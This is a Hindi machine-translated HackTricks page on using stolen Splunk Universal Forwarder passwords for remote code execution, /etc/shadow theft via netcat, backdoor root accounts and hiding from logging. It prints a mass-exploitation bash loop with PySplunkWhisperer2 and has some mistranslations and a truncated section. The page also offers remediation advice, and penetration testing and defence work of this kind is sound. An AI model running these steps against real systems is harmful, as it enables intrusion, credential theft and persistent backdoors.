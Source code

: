 <details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

- क्या आप किसी **साइबर सुरक्षा कंपनी** में काम करते हैं? क्या आप अपनी कंपनी को **HackTricks में विज्ञापित** देखना चाहते हैं? या क्या आपको **PEASS की नवीनतम संस्करण या HackTricks को PDF में डाउनलोड करने का उपयोग** करने की इच्छा है? [**सदस्यता योजनाएं**](https://github.com/sponsors/carlospolop) की जांच करें!

- खोजें [**The PEASS Family**](https://opensea.io/collection/the-peass-family), हमारा विशेष संग्रह [**NFTs**](https://opensea.io/collection/the-peass-family)

- प्राप्त करें [**आधिकारिक PEASS & HackTricks swag**](https://peass.creator-spring.com)

- **शामिल हों** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) में या मुझे **Twitter** पर **फ़ॉलो** करें [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/hacktricks_live)**.**

- **अपने हैकिंग ट्रिक्स को [hacktricks रेपो](https://github.com/carlospolop/hacktricks) और [hacktricks-cloud रेपो](https://github.com/carlospolop/hacktricks-cloud) में पीआर जमा करके साझा करें।**

</details>


यदि आप किसी मशीन को **आंतरिक** या **बाहरी रूप से जाँचते** हुए **Splunk चल रहा** पाते हैं (पोर्ट 8090), यदि आपके पास भाग्य से कोई **वैध क्रेडेंशियल** हैं, तो आप **Splunk सेवा का दुरुपयोग** करके Splunk चलाने वाले उपयोगकर्ता के रूप में एक शैल निष्पादित कर सकते हैं। यदि रूट इसे चला रहा है, तो आप विशेषाधिकार को रूट तक बढ़ा सकते हैं।

इसके अलावा, यदि आप पहले से ही रूट हैं और Splunk सेवा केवल localhost पर सुन रही नहीं है, तो आप Splunk सेवा से **पासवर्ड** फ़ाइल चुरा सकते हैं और पासवर्ड को **क्रैक** कर सकते हैं, या उसमें **नए** क्रेडेंशियल जोड़ सकते हैं। और होस्ट पर स्थिरता बनाए रखें।

पहली छवि में आप देख सकते हैं कि Splunkd वेब पेज कैसा दिखता है।

**निम्नलिखित जानकारी** [**https://eapolsniper.github.io/2020/08/14/Abusing-Splunk-Forwarders-For-RCE-And-Persistence/**](https://eapolsniper.github.io/2020/08/14/Abusing-Splunk-Forwarders-For-RCE-And-Persistence/) **से कॉपी की गई है**

# शैल और स्थिरता के लिए Splunk फ़ॉरवर्डर का दुरुपयोग

14 अगस्त 2020

## विवरण: <a href="#description" id="description"></a>

Splunk Universal Forwarder एजेंट (UF) अधिकृत दूरस्थ उपयोगकर्ताओं को Splunk API के माध्यम से एकल आदेश या स्क्रिप्ट भेजने की अनुमति देता है। UF एजेंट आने वाली कनेक्शनों की पुष्टि नहीं करता है कि वे एक वैध Splunk Enterprise सर्वर से आ रही हैं, और न ही UF एजेंट सत्यापित करता है कि कोड साइन किया गया है या अन्यथा Splunk Enterprise सर्वर से होने की प्रमाणित किया गया है। इससे एक हमलावर, जो UF एजेंट पासवर्ड तक पहुंच प्राप्त करता है, सिस्टम पर अनियमित कोड चला सकता है, जो ऑपरेटिंग सिस्टम पर निर्भर करता है, या रूट के रूप में।

यह हमला पेनेट्रेशन टेस्टर्स द्वारा उपयोग किया जा रहा है और संभावित रूप से दुष्ट हमलावरों द्वारा जंगली में उपयोग किया जा रहा है। पासवर्ड प्राप्ति सैकड़ों सिस्टमों के कंप्रमाइज़ कर सकती है।

Splunk UF पासवर्ड अप्राय तरीके से प्राप्त किए जा सकते हैं, विवरण के लिए सेक्शन Common Password Locations देखें।

## संदर्भ: <a href="#context" id="context"></a>

Splunk एक डेटा संचयन और खोज उपकरण है जिसे अक्सर एक सुरक्षा सूचना और घटना मॉनिटरिंग (SIEM) सिस्टम के रूप में उपयोग किय
## प्रभाव: <a href="#impact" id="impact"></a>

एक Splunk Universal Forward Agent पासवर्ड के साथ एक हमलावर नेटवर्क में सभी Splunk होस्ट को पूरी तरह से कंप्रोमाइज कर सकता है और प्रत्येक होस्ट पर सिस्टम या रूट स्तर की अनुमति प्राप्त कर सकता है। मैंने सफलतापूर्वक Splunk एजेंट का उपयोग Windows, Linux और Solaris Unix होस्ट पर किया है। यह सुरक्षा दुरुपयोग करने की क्षमता को डंप करने, संवेदनशील डेटा को निकालने या रैंसमवेयर स्थापित करने की अनुमति दे सकती है। यह सुरक्षा दुरुपयोग तेज, उपयोग में आसान और विश्वसनीय है।

Splunk लॉग को हैंडल करता है, इसलिए एक हमलावर को पहले कमांड रन करने पर Universal Forwarder स्थान को बदलने, Splunk SIEM में लॉगिंग अक्षम करने की अनुमति हो सकती है। इससे क्लाइंट ब्लू टीम द्वारा पकड़े जाने के अवसर को बहुत कम कर दिया जाएगा।

Splunk Universal Forwarder को अक्सर लॉग संग्रह के लिए डोमेन कंट्रोलर पर स्थापित देखा जाता है, जो एक हमलावर को आसानी से NTDS फ़ाइल निकालने, एंटीवायरस को अक्षम करने के लिए और/या डोमेन में संशोधन करने की अनुमति दे सकता है।

अंत में, Universal Forwarding एजेंट को लाइसेंस की आवश्यकता नहीं होती है, और इसे पासवर्ड स्टैंड अलोन के साथ कॉन्फ़िगर किया जा सकता है। इस प्रकार एक हमलावर उपयोगकर्ता Universal Forwarder को होस्ट पर बैकडोर स्थायित्व तंत्र के रूप में स्थापित कर सकता है, क्योंकि यह एक वैध एप्लिकेशन है जिसे ग्राहक, विशेष रूप से वे जो Splunk का उपयोग नहीं करते हैं, निकालने की संभावना नहीं है।

## सबूत: <a href="#evidence" id="evidence"></a>

एक शोध पर्यावरण सेटअप करने के लिए मैंने नवीनतम Splunk संस्करण का उपयोग करके उदाहरण एक्सप्लोइटेशन दिखाने के लिए किया है। इस रिपोर्ट के लिए कुल 10 छवियां अटैच की गई हैं, जो निम्नलिखित को दिखाती हैं:

1- PySplunkWhisper2 के माध्यम से /etc/passwd फ़ाइल का अनुरोध करना

![1](https://eapolsniper.github.io/assets/2020AUG14/1\_RequestingPasswd.png)

2- Netcat के माध्यम से हमलावर सिस्टम पर /etc/passwd फ़ाइल प्राप्त करना

![2](https://eapolsniper.github.io/assets/2020AUG14/2\_ReceivingPasswd.png)

3- PySplunkWhisper2 के माध्यम से /etc/shadow फ़ाइल का अनुरोध करना

![3](https://eapolsniper.github.io/assets/2020AUG14/3\_RequestingShadow.png)

4- Netcat के माध्यम से हमलावर सिस्टम पर /etc/shadow फ़ाइल प्राप्त करना

![4](https://eapolsniper.github.io/assets/2020AUG14/4\_ReceivingShadow.png)

5- /etc/passwd फ़ाइल में उपयोगकर्ता attacker007 को जोड़ना

![5](https://eapolsniper.github.io/assets/2020AUG14/5\_AddingUserToPasswd.png)

6- /etc/shadow फ़ाइल में उपयोगकर्ता attacker007 को जोड़ना

![6](https://eapolsniper.github.io/assets/2020AUG14/6\_AddingUserToShadow.png)

7- नई /etc/shadow फ़ाइल प्राप्त करना जिसमें attacker007 सफलतापूर्वक जोड़ा गया है

![7](https://eapolsniper.github.io/assets/2020AUG14/7\_ReceivingShadowFileAfterAdd.png)

8- attacker007 खाता का उपयोग करके पीडीएसएस एक्सेस की पुष्टि करना

![8](https://eapolsniper.github.io/assets/2020AUG14/8\_SSHAccessUsingAttacker007.png)

9- उपयोगकर्ता root007 के साथ बैकडोर रूट खाता जोड़ना, जिसका उपयोगकर्ता नाम और यूआईडी/जीआईडी 0 पर सेट किया गया है

![9](https://eapolsniper.github.io/assets/2020AUG14/9\_AddingBackdoorRootAccount.png)

10- attacker007 का उपयोग करके पीडीएसएस एक्सेस की पुष्टि करना, और फिर root007 का उपयोग करके रूट की ओर उन्नयन करना

![10](https://eapolsniper.github.io/assets/2020AUG14/10\_EscalatingToRoot.png)

इस समय मेरे पास Splunk और दो उपयोगकर्ता खातों के माध्यम से होस्ट के प्रतिष्ठानिक एक्सेस है, जिनमें से एक रूट प्रदान करता है। मैं अपने ट्रैक को कवर करने के लिए दूरस्थ लॉगिंग को अक्षम कर सकता हूँ और इस होस्ट का उपयोग करके सिस्टम और नेटवर्क पर हमला जारी रख सकता हूँ।

PySplunkWhisperer2 को स्क्रिप्ट करना बहुत आसान और प्रभावी है।

1. उन होस्टों के आईपी के साथ एक फ़ाइल बनाएं जिन्हें आप दुरुपयोग करना चाहते हैं, उदाहरण नाम ip.txt
2. निम्नलिखित को चलाएँ:
```bash
for i in `cat ip.txt`; do python PySplunkWhisperer2_remote.py --host $i --port 8089 --username admin --password "12345678" --payload "echo 'attacker007:x:1003:1003::/home/:/bin/bash' >> /etc/passwd" --lhost 192.168.42.51;done
```
## अभिनिवेशन सूचना के लिए सुझाव: Splunk, Inc के लिए <a href="#remediation-recommendations-for-splunk-inc" id="remediation-recommendations-for-splunk-inc"></a>

मैं सुरक्षा के लिए निम्नलिखित समाधानों को लागू करने की सलाह देता हूँ:

1. आदर्श रूप से, यूनिवर्सल फ़ॉरवर्डर एजेंट के पास कोई खुला पोर्ट नहीं होना चाहिए, बल्कि यह नियमित अंतराल पर स्प्लंक सर्वर से निर्देशों के लिए पोल करेगा।
2. ग्राहकों और सर्वर के बीच टीएलएस सह-प्रमाणीकरण को सक्षम करें, प्रत्येक ग्राहक के लिए व्यक्तिगत कुंजियों का उपयोग करें। यह स्प्लंक सेवाओं के बीच बहुत उच्च द्विदिशीय सुरक्षा प्रदान करेगा। टीएलएस सह-प्रमाणीकरण एजेंटों और आईओटी उपकरणों में गहनतापूर्वक लागू हो रहा है, यह विश्वास प्राप्त उपकरण ग्राहक सर्वर संचार का भविष्य है।
3. सभी कोड, एकल पंक्ति या स्क्रिप्ट फ़ाइलें, एक संपीड़ित फ़ाइल में भेजें जिसे स्प्लंक सर्वर द्वारा एन्क्रिप्टेड और साइन किया जाता है। यह एजेंट डेटा को एपीआई के माध्यम से भेजने से बचाएगा, लेकिन तीसरे पक्ष से दुर्भाग्यपूर्ण दूरस्थ कोड निष्पादन के खिलाफ सुरक्षा प्रदान करेगा।

## ग्राहकों के लिए अभिनिवेशन सूचना: Splunk के लिए <a href="#remediation-recommendations-for-splunk-customers" id="remediation-recommendations-for-splunk-customers"></a>

1. सुनिश्चित करें कि Splunk एजेंट के लिए एक बहुत मजबूत पासवर्ड सेट किया गया है। मैं कम से कम 15 वर्णों का एक यादृच्छिक पासवर्ड सिफारिश करता हूँ, लेकिन क्योंकि ये पासवर्ड कभी टाइप नहीं किए जाते हैं, इसे 50 वर्णों जैसा बड़ा पासवर्ड भी सेट किया जा सकता है।
2. होस्ट आधारित फ़ायरवॉल को कॉन्फ़िगर करें ताकि केवल स्प्लंक सर्वर से पोर्ट 8089/TCP (यूनिवर्सल फ़ॉरवर्डर एजेंट का पोर्ट) के लिए कनेक्शन स्वीकार किए जाएं।

## रेड टीम के लिए सुझाव: <a href="#recommendations-for-red-team" id="recommendations-for-red-team"></a>

1. प्रत्येक ऑपरेटिंग सिस्टम के लिए Splunk यूनिवर्सल फ़ॉरवर्डर की एक प्रतिलिपि डाउनलोड करें, क्योंकि यह एक बढ़िया हल्का साइन किया गया इम्प्लांट है। इसे वास्तव में ठीक करने के लिए एक प्रतिलिपि रखना अच्छा होगा।

## अन्य शोधकर्ताओं द्वारा उपयोगी खोज / ब्लॉग <a href="#exploitsblogs-from-other-researchers" id="exploitsblogs-from-other-researchers"></a>

उपयोगी सार्वजनिक खोज:

* https://github.com/cnotin/SplunkWhisperer2/tree/master/PySplunkWhisperer2
* https://www.exploit-db.com/exploits/46238
* https://www.exploit-db.com/exploits/46487

संबंधित ब्लॉग पोस्ट:

* https://clement.notin.org/blog/2019/02/25/Splunk-Universal-Forwarder-Hijacking-2-SplunkWhisperer2/
* https://medium.com/@airman604/splunk-universal-forwarder-hijacking-5899c3e0e6b2
* https://www.hurricanelabs.com/splunk-tutorials/using-splunk-as-an-offensive-security-tool

_** नोट: **_ यह समस्या स्प्लंक सिस्टम के साथ एक गंभीर समस्या है और इसे अन्य परीक्षकों द्वारा वर्षों से उपयोग किया गया है। यद्यपि रिमोट कोड निष्पादन स्प्लंक यूनिवर्सल फ़ॉरवर्डर का एक इच्छित सुविधा है, लेकिन इसका अंमलण खतरनाक है। मैंने इस बग को स्प्लंक के बग बाउंटी प्रोग्राम के माध्यम से सबमिट करने का प्रयास किया, बहुत ही कम संभावना है कि उन्हें इस डिज़ाइन के प्रभावों की जानकारी न हो, लेकिन मुझे सूचित किया गया कि किसी भी बग सबमिशन को बग क्राउड / स्प्लंक डिस्क्लोजर पॉलिसी को लागू करना चाहिए, जिसमें विवरणों का कोई भी विवरण स्प्लंक की अनुमति के बिना कभी भी सार्वजनिक रूप से चर्चा नहीं की जा सकती है। मैंने 90 दिन की डिस्क्लोजर टाइमलाइन का अनुरोध किया और इसे इनकार कर दिया गया। इसलिए, मैंने इसे जिम्मेदारीपूर्वक खुलासा नहीं किया क्यो
